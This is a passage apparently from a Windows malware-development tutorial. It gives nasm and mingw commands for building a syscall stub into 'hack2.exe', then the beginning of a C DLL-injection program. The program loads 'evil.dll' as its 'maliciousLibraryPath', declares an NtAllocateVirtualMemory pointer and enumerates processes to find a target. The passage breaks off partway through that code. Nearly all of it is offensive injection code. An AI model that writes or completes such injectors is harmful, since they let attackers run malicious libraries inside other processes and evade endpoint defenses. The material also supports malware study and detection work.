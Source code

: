 To incorporate assembly function into C, we must employ extern "C" (EXTERN_C) directive.

We can compile .asm file with : `nasm -f win64 -o syscall.o syscall.asm`

and compile c code with :

```bash
x86_64-w64-mingw32-g++ -m64 -c hack2.c -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc-Wall -shared -fpermissive

x86_64-w64-mingw32-gcc *.o -o hack2.exe
```

other example would be :

```c 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

#pragma comment(lib, "ntdll")

typedef NTSTATUS(NTAPI* pNtAllocateVirtualMemory)(
  HANDLE             ProcessHandle,
  PVOID              *BaseAddress,
  ULONG              ZeroBits,
  PULONG             RegionSize,
  ULONG              AllocationType,
  ULONG              Protect
);

char maliciousLibraryPath[] = "evil.dll";
unsigned int maliciousLibraryPathLength = sizeof(maliciousLibraryPath) + 1;

int findProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
```
